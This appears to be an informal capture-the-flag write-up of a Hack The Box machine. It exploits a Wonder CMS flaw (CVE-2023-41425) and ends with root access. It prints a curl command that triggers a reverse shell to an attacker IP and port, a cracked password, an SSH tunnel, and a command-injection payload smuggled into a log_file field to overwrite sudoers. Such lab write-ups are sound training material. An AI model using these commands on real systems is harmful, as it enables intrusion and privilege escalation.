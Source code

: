 Started with a nmap scan
```
22 OpenSSH 8.2p1
80 Apache httpd 2.4.41
```
Starting a gobuster with php and js files 
```
/home
/index.php
/index.php?page=loginURL
/0
/themes
/themes/home
/contact.php
/data
/plugins
/messages
/README.md
/bike
```

Looking at the website we got a domain the site is using `sea.htb` looking around at the site we found what CMS it is running `Wonder CMS` and its vulnerable to `CVE-2023-41425` took me a bit to find the login page but looked at the pic from the exploit and it works as a login page on are server after testing the exploit out for a bit I went back to read into it more and we have to hit this `rev.php` file and the path is in the code of the exploit and gives us the arguments as well
`curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.200&lport=8081'` 
and now we have access as `www-data` looking in the code of the website there is a `database.js` file with a hashed password in it looking at it and doing some searching its `bcrypt` and there is 2 `\` that need to be removed to crack the hash the hash cracked to `mychemicalromance` and we can access now to the admin part of the website and just giving it a try to also works for the user `amay` and now we have real ssh access looking around for a bit I did not find anything much but there is something running on amay localhost so we can run this command and then login with there login we can access a website on the localhost
`ssh -L 8080:localhost:8080 amay@sea.htb` 
looking at the site there is a command injection vuln and we can exploit it by hitting analyze button and get the request in burp and use this as payload 
`log_file=/root/root.txt;cp /dev/shm/sudoers > /etc/suoders&analyze_log`
